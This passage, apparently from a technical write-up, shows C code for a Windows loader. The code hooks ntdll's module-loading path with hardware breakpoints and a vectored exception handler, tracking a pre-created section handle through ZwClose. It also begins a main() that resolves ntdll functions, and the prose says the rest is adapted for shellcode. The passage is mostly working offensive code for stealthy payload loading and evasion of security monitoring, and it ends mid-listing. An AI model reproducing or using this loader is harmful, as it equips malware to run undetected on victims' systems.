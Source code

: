 ```
        }
       
        if(lwe->status == ZwClose) {
            DPRINT("lwe->status == ZwClose");
            ULONG_PTR handle = (ULONG_PTR)ExceptionInfo->ContextRecord->Rcx;
           
            if(handle == (ULONG_PTR)lwe->hSection) {
                DPRINT("Handle of section is equal to pre-created section handle!");
                DPRINT("ZwClose: section handle: %llu", handle);
                lwe->status = End;
                lwe->pZwContinue(ExceptionInfo->ContextRecord, FALSE);
            }
            else {
                DPRINT("Handle of section is not equal to pre-created section handle.");
                DPRINT("ZwClose: section handle: %llu", handle);
                ExceptionInfo->ContextRecord->EFlags |= 0x10000;
                lwe->pZwContinue(ExceptionInfo->ContextRecord, FALSE);
            }
           

        }
        if(lwe->status == End) {
            DPRINT("lwe->status == End");
            ExceptionInfo->ContextRecord->Dr0 = 0;
            ExceptionInfo->ContextRecord->Dr1 = 0;
            ExceptionInfo->ContextRecord->Dr2 = 0;
            ExceptionInfo->ContextRecord->Dr3 = 0;
            ExceptionInfo->ContextRecord->Dr6 = 0;
            ExceptionInfo->ContextRecord->Dr7 = 0;
            ExceptionInfo->ContextRecord->EFlags |= 0x10000;
            lwe->pZwContinue(ExceptionInfo->ContextRecord, FALSE);
        }

        lwe->pZwContinue(ExceptionInfo->ContextRecord, FALSE);
    }
```

Actually, the entry point. The only place where any imports and strings appear, all other functions are adapted for use in shellcodes. This is where the LL_WRAPPER structure is initialized, HWBP is installed, VEH handlers are added, etc.

```
int main(void) {

    HMODULE        ntdll = GetModuleHandleA("ntdll.dll");

    HANDLE         hSection = NULL, hModule = NULL;
    LL_WRAPPER     lwe;
    PVOID          DllBase;
    PVOID          entrypoint;
    //init apis
    lwe.pRtlCompareUnicodeString = (TD_RtlCompareUnicodeString) GetProcAddress(ntdll, "RtlCompareUnicodeString");
    lwe.pRtlCreateUnicodeString  = (TD_RtlCreateUnicodeString)  GetProcAddress(ntdll, "RtlCreateUnicodeString");
    lwe.pRtlAllocateHeap         = (TD_RtlAllocateHeap)         GetProcAddress(ntdll, "RtlAllocateHeap");
    lwe.pZwGetContextThread      = (TD_NtGetContextThread)      GetProcAddress(ntdll, "NtGetContextThread");
    lwe.pRtlFreeHeap             = (TD_RtlFreeHeap)             GetProcAddress(ntdll, "RtlFreeHeap");
    lwe.pZwContinue              = (TD_NtContinue)              GetProcAddress(ntdll, "NtContinue");
```